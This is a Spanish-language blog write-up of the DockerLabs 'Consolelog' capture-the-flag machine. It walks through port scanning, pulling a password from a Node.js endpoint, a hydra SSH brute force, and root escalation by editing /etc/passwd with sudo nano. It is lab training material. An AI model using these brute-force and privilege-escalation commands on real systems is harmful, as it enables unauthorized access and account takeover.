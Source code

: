 ```yaml
---
layout: post
title: "Consolelog"
date: 2024-10-07
 12:40:23
category: dockerlabs
vm: dockerlabsfacil
---
```


<table class="log">
  <tr>
    <td rowspan="5"><img src="/notas/public/img/dockerlabs/dockerlabs.png" width=260></td>
    <td></td>
  </tr>
  <tr> <td><strong>Máquina:</strong> Consolelog </td> </tr>
  <tr> <td><strong>SO:</strong> Linux</td> </tr>
  <tr> <td><strong>Nivel:</strong> <span class="easy">Facil</span></td> </tr>
  <tr> <td><strong><a href="https://dockerlabs.es" target="_blank"> DockerLabs</a></strong></td> </tr>
</table>

<br>

**1\.** Escaneando los puertos y servicios abiertos de la maquina, tenemos 3 servicios disponibles.

`sudo nmap -p- -T5 --min-rate=5000 --open -sCV -n -Pn 172.17.0.2`

![img](/notas/public/img/dockerlabs/consolelog/nmap.png){:.margin}

**2\.** En el servicio apache por la web tenemos un boton que si pulsamos y vemos por la consola nos muestra un mensaje.

`http://172.17.0.2`

![img](/notas/public/img/dockerlabs/consolelog/80.png){:.margin}

**3\.** Hacemos la peticion enviando nuestro token al servidor nodejs, nos devuelve una contraseña, o tambien lo podemos encontrar mediante fuzzing en el fichero server.js.

`curl -s -X POST http://172.17.0.2:3000/recurso/ -H "Content-Type: application/json" -d '{"token":"tokentraviesito"}' ;echo`

`http://172.17.0.2/backend/server.js`

![img](/notas/public/img/dockerlabs/consolelog/tokenpass.png){:.margin}

**4\.** Intentamos la fuerza bruta por ssh con esta contraseña, dimos con el usuario para conectarnos por ssh.

`hydra -L /usr/share/wordlists/rockyou.txt -p lapassworddebackupmaschingonadetodas ssh://172.17.0.2:5000`

![img](/notas/public/img/dockerlabs/consolelog/hydra.png){:.margin}

**5\.** Procedemos a conectarnos como usuario lovely por el ssh.

`ssh lovely@172.17.0.2 -p 5000`

![img](/notas/public/img/dockerlabs/consolelog/sshlovely.png){:.margin}

**6\.** Revisamos los privilegios sudo del usuario, tenemos un binario con todos los permisos.

`sudo -l`

![img](/notas/public/img/dockerlabs/consolelog/sudol.png){:.margin}

**7\.** Ya que podemos ejecutar el binario nano como root, podemos editar el passwd, le quitamos la x de root que representa su contraseña activa.

`sudo /usr/bin/nano /etc/passwd`

![img](/notas/public/img/dockerlabs/consolelog/nanopasswd.png){:.margin}
![img](/notas/public/img/dockerlabs/consolelog/nanopasswdok.png){:.margin}

**8\.** Una vez realizado los cambios solo nos queda migrar a root sin proporcinar contraseña alguna.

`su root`

![img](/notas/public/img/dockerlabs/consolelog/root.png){:.margin}

<br>

<a href="#">_Finalizado._</a>